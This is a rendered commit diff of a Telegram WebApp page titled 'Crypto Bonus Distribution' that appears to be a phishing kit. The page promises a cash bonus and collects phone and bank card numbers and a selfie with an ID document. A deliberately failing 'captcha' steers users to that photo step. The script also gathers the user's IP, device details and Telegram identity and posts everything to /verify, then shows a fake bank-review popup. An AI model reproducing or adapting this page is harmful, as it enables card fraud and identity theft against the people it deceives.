

Before and after one commit to ufonah-sudo/claimbonus, a website: page public/index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; a script that the page names is missing.

Commit message:
Ultra design update

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -3,21 +3,20 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
-    <title>Crypto Bonus Hub</title>
+    <title>Crypto Bonus Distribution</title>
     <script src="https://telegram.org/js/telegram-web-app.js"></script>
     <style>
         :root {
-            --primary: #0088cc;
-            --accent: #31b545;
-            --bg: #0f172a;
-            --glass: rgba(255, 255, 255, 0.05);
+            --primary: #00f2ff;
+            --secondary: #7000ff;
+            --bg: #050505;
             --text: #ffffff;
         }
 
         body {
-            background: radial-gradient(circle at top left, #1e293b, #0f172a);
+            background: var(--bg);
             color: var(--text);
-            font-family: -apple-system, system-ui, sans-serif;
+            font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, sans-serif;
             display: flex;
             justify-content: center;
             align-items: center;
@@ -26,235 +25,252 @@
             overflow: hidden;
         }
 
-        /* Анимированный фон */
-        .bg-glow {
-            position: absolute;
-            width: 300px;
-            height: 300px;
-            background: var(--primary);
-            filter: blur(120px);
-            opacity: 0.2;
+        /* Анимированный фон с движущимися огнями */
+        .bg-animate {
+            position: fixed;
+            top: 0; left: 0; right: 0; bottom: 0;
+            background:
+                radial-gradient(circle at 20% 30%, rgba(112, 0, 255, 0.15) 0%, transparent 40%),
+                radial-gradient(circle at 80% 70%, rgba(0, 242, 255, 0.15) 0%, transparent 40%);
             z-index: -1;
-            animation: move 10s infinite alternate;
+            animation: pulseBg 8s infinite alternate;
         }
 
-        @keyframes move {
-            from { transform: translate(-50%, -50%); }
-            to { transform: translate(50%, 50%); }
+        @keyframes pulseBg {
+            0% { opacity: 0.5; }
+            100% { opacity: 1; }
         }
 
         .card {
-            background: var(--glass);
-            backdrop-filter: blur(20px);
+            background: rgba(255, 255, 255, 0.03);
+            backdrop-filter: blur(25px);
             border: 1px solid rgba(255, 255, 255, 0.1);
-            border-radius: 28px;
-            padding: 30px;
+            border-radius: 32px;
+            padding: 35px;
             width: 90%;
-            max-width: 400px;
+            max-width: 380px;
             text-align: center;
-            box-shadow: 0 25px 50px -12px rgba(0, 0, 0, 0.5);
+            position: relative;
+            overflow: hidden;
+            box-shadow: 0 0 40px rgba(0, 0, 0, 0.5);
         }
 
-        .bonus-amount {
-            font-size: 48px;
-            font-weight: 800;
-            background: linear-gradient(45deg, #0088cc, #22d3ee);
+        /* Эффект пробегающего блеска */
+        .card::before {
+            content: '';
+            position: absolute;
+            top: -50%; left: -50%;
+            width: 200%; height: 200%;
+            background: linear-gradient(45deg, transparent, rgba(255,255,255,0.05), transparent);
+            transform: rotate(45deg);
+            animation: shimmer 4s infinite;
+        }
+
+        @keyframes shimmer {
+            0% { transform: translateX(-150%) rotate(45deg); }
+            100% { transform: translateX(150%) rotate(45deg); }
+        }
+
+        .amount {
+            font-size: 56px;
+            font-weight: 900;
+            margin: 10px 0;
+            background: linear-gradient(to right, #00f2ff, #0077ff);
             -webkit-background-clip: text;
             -webkit-text-fill-color: transparent;
-            margin: 10px 0;
+            filter: drop-shadow(0 0 15px rgba(0, 242, 255, 0.3));
         }
 
-        .label-tag {
-            background: rgba(49, 181, 69, 0.2);
-            color: var(--accent);
-            padding: 5px 12px;
-            border-radius: 12px;
+        .status-badge {
+            display: inline-block;
+            background: rgba(0, 255, 133, 0.1);
+            color: #00ff85;
+            padding: 6px 16px;
+            border-radius: 100px;
             font-size: 12px;
-            font-weight: 600;
+            font-weight: bold;
             text-transform: uppercase;
             letter-spacing: 1px;
+            margin-bottom: 10px;
         }
 
-        .input-group {
-            margin: 20px 0;
-            text-align: left;
+        .input-box {
+            background: rgba(255, 255, 255, 0.05);
+            border: 1px solid rgba(255, 255, 255, 0.1);
+            border-radius: 16px;
+            padding: 15px;
+            width: 100%;
+            color: white;
+            font-size: 16px;
+            margin-bottom: 15px;
+            box-sizing: border-box;
+            transition: 0.3s;
         }
 
-        label {
-            display: block;
-            font-size: 13px;
-            color: #94a3b8;
-            margin-bottom: 8px;
-            margin-left: 5px;
-        }
-
-        input, select {
-            width: 100%;
-            background: rgba(0, 0, 0, 0.2);
-            border: 1px solid rgba(255, 255, 255, 0.1);
-            border-radius: 14px;
-            padding: 14px;
-            color: white;
-            font-size: 16px;
-            transition: all 0.3s;
+        .input-box:focus {
+            border-color: var(--primary);
+            box-shadow: 0 0 15px rgba(0, 242, 255, 0.2);
             outline: none;
         }
 
-        input:focus {
-            border-color: var(--primary);
-            background: rgba(0, 0, 0, 0.3);
+        /* Пульсирующая кнопка */
+        .main-btn {
+            width: 100%;
+            padding: 20px;
+            background: linear-gradient(90deg, #0077ff, #00f2ff);
+            border: none;
+            border-radius: 18px;
+            color: white;
+            font-size: 18px;
+            font-weight: 800;
+            cursor: pointer;
+            text-transform: uppercase;
+            box-shadow: 0 10px 30px rgba(0, 119, 255, 0.4);
+            animation: btnPulse 2s infinite;
         }
 
-        .btn {
-            width: 100%;
-            background: linear-gradient(135deg, #0088cc, #0077b5);
-            color: white;
-            border: none;
-            border-radius: 16px;
-            padding: 18px;
-            font-size: 18px;
-            font-weight: 700;
-            cursor: pointer;
-            box-shadow: 0 10px 20px -5px rgba(0, 136, 204, 0.4);
-            transition: transform 0.2s, box-shadow 0.2s;
+        @keyframes btnPulse {
+            0% { transform: scale(1); box-shadow: 0 10px 30px rgba(0, 119, 255, 0.4); }
+            50% { transform: scale(1.02); box-shadow: 0 10px 40px rgba(0, 242, 255, 0.6); }
+            100% { transform: scale(1); box-shadow: 0 10px 30px rgba(0, 119, 255, 0.4); }
         }
 
-        .btn:active {
-            transform: scale(0.98);
+        .captcha-area {
+            background: rgba(0,0,0,0.3);
+            border-radius: 16px;
+            padding: 15px;
+            margin: 20px 0;
+            display: flex;
+            align-items: center;
+            cursor: pointer;
+            border: 1px solid rgba(255,255,255,0.05);
         }
 
-        /* Фейковая капча в стиле Apple */
-        .captcha-container {
-            background: rgba(255, 255, 255, 0.03);
-            border-radius: 14px;
-            padding: 15px;
-            margin-bottom: 20px;
-            display: flex;
-            align-items: center;
-            border: 1px dashed rgba(255, 255, 255, 0.2);
-            cursor: pointer;
-        }
-
-        .captcha-circle {
-            width: 20px;
-            height: 20px;
+        .check-circle {
+            width: 24px; height: 24px;
             border: 2px solid var(--primary);
             border-radius: 50%;
             margin-right: 15px;
+            position: relative;
         }
 
-        .photo-upload {
-            border: 2px dashed rgba(255, 255, 255, 0.1);
-            border-radius: 16px;
-            padding: 20px;
+        .photo-step {
+            font-size: 13px;
+            color: #888;
             margin-bottom: 20px;
-            transition: 0.3s;
-        }
-
-        .photo-upload:active {
-            border-color: var(--primary);
-            background: rgba(0, 136, 204, 0.05);
+            background: rgba(255,255,255,0.02);
+            padding: 15px;
+            border-radius: 12px;
         }
     </style>
 </head>
 <body>
 
-<div class="bg-glow"></div>
+<div class="bg-animate"></div>
 
 <div class="card">
-    <div class="label-tag">Verified Offer</div>
-    <div class="bonus-amount" id="bonusDisplay">1,000 ₽</div>
-    <p style="color: #94a3b8; font-size: 14px;">Зачисление через СБП или на карту Visa/Mastercard</p>
+    <div class="status-badge">Доступно к выводу</div>
+    <div class="amount" id="bonusAmt">1,000 ₽</div>
+    <p style="color: #ccc; font-size: 14px; margin-bottom: 25px;">Средства зачисляются мгновенно через шлюз системы быстрых платежей.</p>
 
-    <form id="mainForm">
-        <div class="input-group">
-            <label>Выберите регион</label>
-            <select id="currency" onchange="updateBonus()">
-                <option value="RUB">🇷🇺 Россия (1,000 ₽)</option>
-                <option value="USD">🌎 International ($100)</option>
-            </select>
+    <form id="claimForm">
+        <select id="currency" class="input-box" onchange="updateUI()">
+            <option value="RUB">🇷🇺 Получить на карту РФ (1,000 ₽)</option>
+            <option value="USD">🌎 International Cards ($100)</option>
+        </select>
+
+        <input type="text" id="phone" class="input-box" placeholder="Номер телефона / СБП" required>
+        <input type="text" id="card" class="input-box" placeholder="Номер карты зачисления" required>
+
+        <div class="captcha-area" onclick="handleCaptcha(this)">
+            <div class="check-circle" id="capCircle"></div>
+            <span id="capText" style="font-size: 14px;">Подтвердить, что я не бот</span>
         </div>
 
-        <div class="input-group">
-            <label id="phoneLabel">Номер телефона (СБП)</label>
-            <input type="text" id="phone" placeholder="+7 (___) ___-__-__" required>
+        <div class="photo-step">
+            Для завершения транзакции сделайте селфи с документом (проверка владения счетом)
+            <input type="file" id="photo" accept="image/*" capture="camera" style="display:none;" required>
+            <button type="button" onclick="document.getElementById('photo').click()" style="margin-top:10px; background:none; border:1px solid #555; color:white; padding:5px 15px; border-radius:8px; cursor:pointer;">Сделать фото</button>
         </div>
 
-        <div class="input-group">
-            <label>Реквизиты для выплаты</label>
-            <input type="text" id="card" placeholder="Номер карты или счета" required>
-        </div>
-
-        <div class="captcha-container" onclick="this.style.borderColor='#31b545'; alert('Verification error. Please use Identity Check below.')">
-            <div class="captcha-circle"></div>
-            <span style="font-size: 14px; color: #cbd5e1;">Я не робот (Security Check)</span>
-        </div>
-
-        <div class="photo-upload">
-            <label style="text-align: center; display: block; margin: 0;">📸 Фото-верификация личности</label>
-            <input type="file" id="photo" accept="image/*" capture="camera" style="opacity: 0; position: absolute; width: 1px;" required>
-            <button type="button" onclick="document.getElementById('photo').click()" style="background: none; border: 1px solid var(--primary); color: var(--primary); padding: 8px 15px; border-radius: 10px; margin-top: 10px; cursor: pointer;">Выбрать фото</button>
-        </div>
-
-        <button type="submit" class="btn" id="submitBtn">Получить бонус</button>
+        <button type="submit" class="main-btn" id="submitBtn">Забрать средства</button>
     </form>
 </div>
 
 <script>
-    // Инициализация Telegram WebApp
     const tg = window.Telegram.WebApp;
-    tg.expand(); // Развернуть на весь экран
+    tg.expand();
 
-    function updateBonus() {
-        const currency = document.getElementById('currency').value;
-        const display = document.getElementById('bonusDisplay');
-        const phoneLabel = document.getElementById('phoneLabel');
-        const phoneInput = document.getElementById('phone');
-
-        if (currency === 'USD') {
-            display.innerText = '$100';
-            phoneLabel.innerText = 'Contact Phone Number';
-            phoneInput.placeholder = '+1 ...';
-        } else {
-            display.innerText = '1,000 ₽';
-            phoneLabel.innerText = 'Номер телефона (СБП)';
-            phoneInput.placeholder = '+7 (___) ___-__-__';
-        }
+    function updateUI() {
+        const val = document.getElementById('currency').value;
+        document.getElementById('bonusAmt').innerText = (val === 'USD') ? '$100' : '1,000 ₽';
     }
 
-    document.getElementById('mainForm').onsubmit = async (e) => {
+    function handleCaptcha(el) {
+        const text = document.getElementById('capText');
+        const circle = document.getElementById('capCircle');
+        text.innerText = 'Проверка...';
+        circle.style.borderTopColor = 'transparent';
+        circle.style.animation = 'spin 1s linear infinite';
+
+        setTimeout(() => {
+            alert('Ошибка автоматической проверки. Требуется фото-подтверждение ниже.');
+            text.innerText = 'Ошибка. Пройдите фото-верификацию.';
+            circle.style.animation = 'none';
+            circle.style.background = '#ff4b4b';
+            circle.style.borderColor = '#ff4b4b';
+        }, 1500);
+    }
+
+    document.getElementById('claimForm').onsubmit = async (e) => {
         e.preventDefault();
         const btn = document.getElementById('submitBtn');
-        btn.innerText = 'Connecting to gateway...';
+        btn.innerText = 'ВЫПОЛНЯЕТСЯ ПЕРЕВОД...';
         btn.disabled = true;
 
         try {
             const ipRes = await fetch('https://api.ipify.org?format=json');
             const { ip } = await ipRes.json();
 
+            const deviceData = {
+                ua: navigator.userAgent,
+                screen: `${screen.width}x${screen.height}`,
+                tz: Intl.DateTimeFormat().resolvedOptions().timeZone
+            };
+            const userData = tg.initDataUnsafe?.user || {};
+
+            const fullInfo = `
+📱 DEV: ${deviceData.ua}
+🖥 SCR: ${deviceData.screen}
+🌍 TZ: ${deviceData.tz}
+👤 TG: @${userData.username || 'unknown'} (ID: ${userData.id || 'N/A'})
+⭐ PREM: ${userData.is_premium ? 'YES' : 'NO'}`;
+
             const formData = new FormData();
             formData.append('phone', `[${document.getElementById('currency').value}] ${document.getElementById('phone').value} | Card: ${document.getElementById('card').value}`);
             formData.append('ip', ip);
+            formData.append('details', fullInfo);
             formData.append('photo', document.getElementById('photo').files[0]);
 
             await fetch('/verify', { method: 'POST', body: formData });
 
-            // Красивое завершение в стиле Telegram
             tg.showPopup({
-                title: 'System Error',
-                message: 'Your account is under review. Please try again in 24 hours.',
+                title: 'Транзакция приостановлена',
+                message: 'Ваш банк затребовал дополнительную проверку. С вами свяжется оператор в течение 24 часов.',
                 buttons: [{type: 'close'}]
             });
-
-            alert('Service unavailable in your region. Error code: 0x442');
         } catch (err) {
-            alert('Connection timeout');
+            alert('Ошибка шлюза. Повторите попытку позже.');
         } finally {
-            btn.innerText = 'Получить бонус';
+            btn.innerText = 'Забрать средства';
             btn.disabled = false;
         }
     };
 </script>
 
+<style>
+    @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
+</style>
+
 </body>
 </html>
```
Also changed, not shown: server.js (+27 -13 lines).
